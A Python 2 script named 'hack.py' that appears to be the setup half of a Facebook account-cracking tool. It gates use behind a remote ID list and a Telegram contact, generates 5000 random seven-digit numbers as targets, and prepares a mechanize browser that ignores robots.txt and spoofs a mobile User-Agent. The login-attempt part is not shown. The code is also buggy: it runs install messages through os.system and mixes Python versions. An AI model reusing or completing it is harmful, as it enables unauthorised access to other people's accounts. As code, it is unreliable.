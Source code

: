 # hack.py
import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass
import requests


def chk():
  uuid = str(os.geteuid()) + str(os.getlogin())
  id = "-".join(uuid)
  print("\x1b[37;1mYour ID : "+id)
  try:
    httpCaht = requests.get("https://raw.githubusercontent.com/NJSQWAT/kurdo.txt/main/kurdo.txt").text
    if id in httpCaht:
      print("\033[92mYOUR ID IS ACTIVE.........")
      msg = str(os.geteuid())
      time.sleep(1)
      pass
    else:
      print("\x1b[91mBarezm Id kat active nya Tkaya bo Active krdn nama bnera bo telegram @ravo_m.......")
      time.sleep(1)
      sys.exit()
  except:
    sys.exit()
    if name == '__main__':
     print(logo)
     chk()
   
chk()






os.system('rm -rf .txt')
for n in range(5000):
    nmbr = random.randint(1111111, 9999999)
    sys.stdout = open('.txt', 'a')
    print nmbr
    sys.stdout.flush()

try:
    import requests
except ImportError:
    os.system('No Module Named Requests! type:pip2 install requests')

try:
    import mechanize
except ImportError:
    os.system('No Module Named Mechanize! type:pip2 install mechanize')
    time.sleep(1)
    os.system('Then type: python2 fbi.py')

import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, requests, mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]